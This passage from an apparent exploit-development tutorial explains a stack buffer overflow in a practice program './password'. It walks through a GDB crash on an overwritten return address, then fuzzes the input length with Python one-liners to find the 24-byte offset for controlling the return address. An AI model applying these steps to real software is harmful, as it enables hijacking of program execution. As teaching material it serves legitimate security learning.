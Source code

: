 Note: The above instance of GDB is running the [GDB Enhanced Features (GEF)](https://gef.readthedocs.io/en/master/) plugin, which adds features that assist exploit developers.

Let's take a look at what is going on here. The program sent a `SIGSEGV` signal after it failed to execute the `ret` instruction at line `main+114`. Recall that the `ret` instruction works by trying to execute a `pop rip` instruction. If `rsp` is currently pointing to a bunch of A's instead of the return address, then when the `ret` instruction is executed, the program will attempt to store `0x4141414141414141` (the ASCII code for eight A's) into `rip`. Since the program realizes that `0x4141414141414141` is not an executable address, it fails to load the value into `rip` and instead sends a `SIGSEGV` signal.

In other words, when we overflowed the `pass` buffer with 100 A's, we ended up modifying other values on the stack as well. The buffer overflow allowed us to change the value of the return address with A's, and when the `ret` instruction was executed, the program attempted to set `rip` to the invalid address `0x4141414141414141`, causing a segfault. 

## Controlling the Return Address

Now we know that we can modify the return address to be a bunch of A's. Can we use this idea to set the return address to be any arbitrary value? Yes we can! We simply have to figure out the minimum number of A's that we need to send to the program in order to get it to crash. Then, we can type in the arbitrary value that we want to set the return address to right after the A's.

```sh
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*50)" > test

$ ./password < test
Enter the password: Invalid password.
zsh: segmentation fault  ./password < test

$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*25)" > test

$ ./password < test
Enter the password: Invalid password.
zsh: segmentation fault  ./password < test

$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*20)" > test

$ ./password < test
Enter the password: Invalid password.

$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*21)" > test

$ ./password < test
Enter the password: Invalid password.

$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*22)" > test

$ ./password < test
Enter the password: Invalid password.

$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*23)" > test

$ ./password < test
Enter the password: Invalid password.

$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*24)" > test

$ ./password < test
Enter the password: Invalid password.
zsh: segmentation fault  ./password < test
```
